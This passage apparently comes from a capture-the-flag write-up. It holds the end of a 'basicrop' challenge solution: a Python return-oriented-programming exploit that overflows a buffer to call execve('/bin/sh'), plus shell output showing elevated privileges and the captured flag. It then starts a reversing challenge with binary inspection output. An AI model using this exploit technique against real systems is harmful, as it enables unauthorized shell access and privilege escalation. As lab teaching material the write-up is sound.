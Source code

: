 RAX = 0x3b (59)
RDI = "/bin/sh"
RSI = "/bin/sh"
RDX = 0x0

RDI/RSI/RDX are set to the good value but we have to set RAX. In the "fuckit" function we can see 3 "pop". The first and the second one will pop the RDI value and 0x0, the two value pushed just before. But we can control the last one so we will add the value 0x3b (59) on the stack to poped it in RAX. Then we need to do the syscall. To do it we will jump into one of the two syscall instructions in the "breakme" function. I choose the first one.

The exploit will look like that:
```python
#!/usr/bin/env python

import struct

fuckit_addr=struct.pack("<Q", 0x00000000004000fa)	 # Fuckit function address
execve=struct.pack("<Q", 0x3b)			            # Execve syscall number
syscall_addr=struct.pack("<Q", 0x00000000004000dd)    # Syscall instruction address
padding="A"*256						               # Padding before overflow

print padding+fuckit_addr+execve+syscall_addr
```

And then we test it:
```bash
$ (python /tmp/dagger/basicrop.py;cat)|./basicrop 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@;�@id
uid=1334(dagger) gid=1334(dagger) euid=1308(basic_rop-solved) egid=1307(basic_rop) groups=1307(basic_rop),1002(tocttou),1305(robot_cop),1306(2befree),1311(botoxedstring),1312(fakemalware-killswitch),1334(dagger)
cat flag
flag{r0ppin9_Y0ur_waY_t0_h3aveN}
```

Done.
# 3. Alien-Language
This challenge was in the cryptographic category but, for me, it was mostly a reversing challenge than cryptographic. (Maybe there was an other method to solve it...)

This challenge was made with an elf-64 binary. So we began by examining it:
```bash
$ file alien 
alien: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a87da1012726ca02b0c683891ff6b35620b32e42, not stripped

$ ls -lh alien 
-rwxr-xr-x 1 meffre_q meffre_q 8.4K Sep 21 21:05 alien

$ nm alien 
0000000000201048 B __bss_start
0000000000201048 b completed.6973
                 w __cxa_finalize@@GLIBC_2.2.5
0000000000201038 D __data_start
0000000000201038 W data_start
0000000000000670 t deregister_tm_clones
0000000000000700 t __do_global_dtors_aux
0000000000200de8 t __do_global_dtors_aux_fini_array_entry
0000000000201040 D __dso_handle
0000000000200df0 d _DYNAMIC
0000000000201048 D _edata
```